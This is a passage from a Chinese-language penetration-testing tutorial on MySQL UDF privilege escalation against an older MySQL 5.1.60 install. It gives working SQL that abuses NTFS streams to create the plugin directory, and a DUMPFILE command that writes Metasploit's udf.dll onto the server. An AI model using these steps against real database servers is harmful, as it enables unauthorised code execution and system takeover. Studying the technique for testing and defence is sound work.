 MySQL5.1.60 目录下开始是没有 lib\plugin 目录的

![](https://mmbiz.qpic.cn/mmbiz_png/4bw9lT0keH2ibyW5icblcibTtWjAaXSFqmZtNnR8bhzq2Rian14icKvBs3O1tdvibzxYxFRiaQS0ANvbqhcS2WzuQRdibw/640?wx_fmt=png)

mysql 一般默认是没有 lib\plugin 目录的（据说安装完整版 mysql 就会有）

在低版本的 mysql 中可以使用 NTFS 流创建 lib\plugin 目录，具体命令如下：

```
SELECT '1' into dumpfile 'F:/phpstudy8.1/phpstudy_pro/Extensions/MySQL5.1.60\\lib::$INDEX_ALLOCATION';
SELECT '1' into dumpfile 'F:/phpstudy8.1/phpstudy_pro/Extensions/MySQL5.1.60/lib\\plugin::$INDEX_ALLOCATION';
//运行报Error writing则说明文件夹创建成功
//若报Permission denied则说明失败
```

![](https://mmbiz.qpic.cn/mmbiz_png/4bw9lT0keH2ibyW5icblcibTtWjAaXSFqmZiaupdzfDSVhjKdXic0kdGtDOWnFicmzmM3XoLWYonhuCNBtfzuHWHI0Tw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/4bw9lT0keH2ibyW5icblcibTtWjAaXSFqmZQYDIMYaksXGy6KowOHRlTOCM1tibQHsOFia32mvJRA0lI19AnpXZTKuw/640?wx_fmt=png)

--tips:mysql`5.1.60`版本还能用，版本再高就不一定了，高版本 mysql 会限制流的使用。

高版本没有 lib\plugin 目录目前不知道怎么解决，希望有大佬能指点！

利用 dumpfile 写入 udf.dll 文件，这里要先把文件转换为 16 进制数据，用 UltraEdit 列模式复制出来 16 进制数据，然后写个小脚本把空格和 \ n 删掉。

![](https://mmbiz.qpic.cn/mmbiz_png/4bw9lT0keH2ibyW5icblcibTtWjAaXSFqmZIXy4j7EDchZu2ibbEsIv3OlUFOITs1hp2BGc72XznicEKTmIOq3uptnQ/640?wx_fmt=png)

脚本大概有这么小：

```
lines=[]
with open("udf.txt", 'r') as file_to_read:
    while True:
        line = file_to_read.readline()
        if not line:
            break
        line = line.strip('\n')
        line = line.replace(" ","")
        lines.append(line)
with open("new.txt", 'a') as new:
    for a in lines:
        new.write(a)
```

udf.dll 可以在 msf 中获得：

默认为`/usr/share/metasploit-framework/data/exploits/mysql`目录

![](https://mmbiz.qpic.cn/mmbiz_png/4bw9lT0keH2ibyW5icblcibTtWjAaXSFqmZjcnEnA9MP3YcKhadwjrVN7Z5OG7WBmE3LyOF8XHZRNzYooL7IyrF1A/640?wx_fmt=png)

使用 dumpfile 写入 udf.dll：

```
select unhex('dll文件的16进制编码，不要空格和换行，很长一串') into dumpfile 'F:/phpstudy8.1/phpstudy_pro/Extensions/MySQL5.1.60/lib/plugin/udf.dll';
```
